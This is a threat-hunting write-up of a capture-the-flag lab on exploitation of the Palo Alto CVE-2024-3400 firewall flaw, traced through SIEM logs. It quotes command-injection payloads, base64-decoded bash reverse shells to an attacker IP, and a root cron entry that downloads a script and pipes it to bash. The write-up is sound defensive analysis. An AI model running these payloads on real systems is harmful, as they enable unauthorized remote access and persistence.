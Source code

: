 https://cyberdefenders.org/blueteam-ctf-challenges/paloaltorce/

This is a threat hunting lab created by Cyber Defenders called PaloAltoRCE that uses the Elastic SIEM. It has a difficulty of Hard.

Scenario:
>Palo Alto, a leading firewall vendor, has recently announced a critical vulnerability (CVE-2024-3400) that affects specific versions of its next-generation firewalls. This critical vulnerability enables remote attackers to gain unauthorized access and potentially take full control of affected systems. These firewalls are integral to your organization's network security, as they manage and monitor both inbound and outbound traffic, safeguarding against unauthorized access and various threats.
As a security analyst, your primary task is to accurately and swiftly determine whether any of the organization's systems are impacted by this newly disclosed vulnerability.

**Q1: Identify the IP address of the first threat actor who gained unauthorized access to the environment.**

I reviewed the vendor's advisory at
https://security.paloaltonetworks.com/CVE-2024-3400, which notes in the FAQ  that the following string can indicate evidence of attempted exploit activity: "failed to unmarshal session"

I used this as a query to start the investigation, and received 118 results. Taking a quick look at them, I see that there's a host.name field and check the list of values. There's only one: "ip-172-31-28-17". After adding this field as a column, I scanned the results, primarily to see the time range of the attack (Apr 26, 2024 @ 17:58:42.867 to 17:59:12.158). I also notice that there are 17 rows missing values in the host.name column. Upon review, I find these in error.message (not an exhaustive list from all rows):

>Provided Grok expressions do not match field value: [2024-04-26 05:19:56 {"level":"error","task":"301-22","time":"2024-04-26T05:19:56.951910054-07:00","message":"==failed== ==to== ==unmarshal== ==session==(/../../../../opt/panlogs/tmp/device_telemetry/minute/abc`echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC81NC4xNjIuMTY0LjIyLzEzMzcgMD4mMQ==|base64${IFS}-d|bash`) map , EOF"}] grok

After decoding the base64 string, the result is:

```
bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
```

>Provided Grok expressions do not match field value: [2024-04-26 05:17:21 {"level":"error","task":"300-22","time":"2024-04-26T05:17:21.392894711-07:00","message":"==failed== ==to== ==unmarshal== ==session==(/../../../../opt/panlogs/tmp/device_telemetry/minute/aaa`echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8nNTQuMTYyLjE2NC4yMi8xMzMzNyAwPiYx|base64${IFS}-d|bash`) map , EOF"}] grok

```
bash -i >& /dev/tcp/54.162.164.22/13337 0>&1
```

>Provided Grok expressions do not match field value: [2024-04-26 05:01:23 {"level":"error","task":"296-22","time":"2024-04-26T05:01:23.890861508-07:00","message":"==failed== ==to== ==unmarshal== ==session==(/../../../../opt/panlogs/tmp/device_telemetry/minute/aaa`echo${IFS}d2hvYW1pID4mIC9kZXYvdGNwLzU0LjE2Mi4xNjQuMjIvMTMzMzcgMD4mMQ==|base64${IFS}-d|bash`) map , EOF"}] grok

```
whoami >& /dev/tcp/54.162.164.22/13337 0>&1
```

>Provided Grok expressions do not match field value: [2024-04-26 05:12:45 {"level":"error","task":"298-22","time":"2024-04-26T05:12:45.710458616-07:00","message":"==failed== ==to== ==unmarshal== ==session==(/../../../../opt/panlogs/tmp/device_telemetry/minute/zzz`echo${IFS}d2hvYW1pID4mIC9kZXYvdGNwLzU0LjE2Mi4xNjQuMjIvMTMzMzcgMD4mMQ==|base64${IFS}-d|bash`) map , EOF"}] grok

```
whoami >& /dev/tcp/54.162.164.22/13337 0>&1
```

>Provided Grok expressions do not match field value: [2024-04-26 05:04:25 {"level":"error","task":"297-22","time":"2024-04-26T05:04:25.485975248-07:00","message":"==failed== ==to== ==unmarshal== ==session==(/../../../../opt/panlogs/tmp/device_telemetry/minute/aaa`echo${IFS}bHMgPiYgL2Rldi90Y3AvNTQuMTYyLjE2NC4yMi8xMzMzNyAwPiYx|base64${IFS}-d|bash`) map , EOF"}] grok

```
ls >& /dev/tcp/54.162.164.22/13337 0>&1
```

I also reviewed the vendor's threat brief: https://unit42.paloaltonetworks.com/cve-2024-3400

**Q2: Determine the date and time of the initial interaction between the threat actor and the target system. Format: 24h-UTC**

I searched for the IP address seen above, and sorted the timestamp column by Old to New. This is the first result:

| Field          | Value                                                                             |
| -------------- | --------------------------------------------------------------------------------- |
| _id            | s4ybG48BvPtxZFjwM-s8                                                              |
| _index         | paloalto-nginx-access-2024.04.21                                                  |
| _score         | -                                                                                 |
| @timestamp     | Apr 21, 2024 @ 18:17:07.000                                                       |
| @version       | 1                                                                                 |
| client_ip      | 54.162.164.22                                                                     |
| event.original | ::ffff:54.162.164.22 - - [21/Apr/2024:11:17:07 -0700] "GET /" 302 0 "curl/7.81.0" |
| host.name      | ip-172-31-28-17                                                                   |
| log.file.path  | /mnt/palo_alto2/var/log/nginx/access.log                                          |
| message        | ::ffff:54.162.164.22 - - [21/Apr/2024:11:17:07 -0700] "GET /" 302 0 "curl/7.81.0" |
| method         | GET                                                                               |
| request        | /                                                                                 |
| response_code  | 302                                                                               |
| response_size  | 0                                                                                 |
| timestamp      | 21/Apr/2024:11:17:07 -0700                                                        |
| user_agent     | curl/7.81.0                                                                       |

**Q3: What is the command the threat actor used to achieve persistence on the machine?**

Reviewing the results of the query above further, I found this outreach from the host to the server for additional commands:

```
| Field           | Value                                                                                      |
|-----------------|--------------------------------------------------------------------------------------------|
| _id             | KI-eG48BvPtxZFjwqDZF                                                                       |
| _index          | paloalto-syslog-2024.04.26                                                                 |
| _score          | -                                                                                          |
| @timestamp      | Apr 26, 2024 @ 07:08:01.000                                                                |
| @version        | 1                                                                                          |
| event.original  | Apr 26 07:08:01 PA-VM crond[23980]: (root) CMD (wget -qO- http://54.162.164.22/update | bash) |
| host.name       | ip-172-31-28-17                                                                            |
| log.file.path   | /mnt/palo_alto3/var/log/syslog-system.log                                                  |
| message         | Apr 26 07:08:01 PA-VM crond[23980]: (root) CMD (wget -qO- http://54.162.164.22/update | bash), (root) CMD (wget -qO- http://54.162.164.22/update | bash) |
| pid             | 23980                                                                                      |
| program         | crond                                                                                      |
```

**Q4: What port was the first port used by one of the threat actors for the reverse shell?**

Reviewing the notes I wrote for Q1, the answer becomes clear.

**Q5: What was the name of the file one of the threat actors tried to exfiltrate?**

Having read the vendor's threat brief, I was aware that the attacker attempts to exfiltrate config files, namely "running-config.xml". 

**Q6: What was the full URL the Threat actor used to access the exfiltrated content successfully?**

The simplest solution is to review incoming HTTP GET requests from the attacker:

```
client_ip:54.162.164.22 and message:"GET "
```

A few rows down, I encountered this `message` field:

```
54.162.164.22 56222 - 172.31.38.49 20077 [26/Apr/2024:04:28:59 -0700] "==GET== /global-protect/portal/css/bootstrap.min.css HTTP/1.1" 200 155758 "https://44.217.16.42/global-protect/login.esp" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0" 1714130939.038 0.002 - 8053
```

I leave it as an exercise to the reader how to arrive at the correct answer. The information you need is in the field.
